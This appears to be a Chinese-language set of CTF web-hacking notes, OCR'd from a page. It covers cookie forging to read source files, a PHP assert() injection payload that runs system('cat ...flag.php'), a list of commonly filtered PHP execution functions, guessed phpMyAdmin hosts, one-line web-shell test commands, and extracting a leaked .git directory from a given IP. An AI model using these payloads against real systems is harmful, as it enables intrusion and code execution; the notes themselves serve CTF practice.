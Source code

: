    构造Cookie问题
    ?line=1&filename=show.php
    用bp暴破， line=1字段 读取每一行 ，整合代码发现需要构造 Cookies: margin ,读取keys.php
    添加header头 Cookie: margin=margin; 
        filename=xxx替换成filename=keys.php的base64编码，读取完成。

### php 相关函数

assert
    
    bool assert(mixed $assertion[,string $description])，
    如果assertion是字符串，他会被assert()当做php代码执行。

就是说如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行

那么我们就可以构造payload

    ?page='.system("cat templates/flag.php").'

常被过滤

    "exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"

## 地址猜想
phpmyadmin 地址

    http://pma.wechall.com
    http://pma.wechall.net
    https://pma.wechall.net


##mytest
https://blog.csdn.net/qq_42192672/article/details/82935802

https://github.com/eteran/edb-debugger/releases、

i春秋 实验吧 bugku hackinglab.cn

一句话木马常用查询

    whoami
    system
    ipconfig
    echo '<pre>';system("ipconfig");


### .git 泄漏

扫描 发现 .git 目录，

使用Web_Git_Extract-master.zip 提取

python2 git_extract.py http://106.75.72.168:9999/.git/
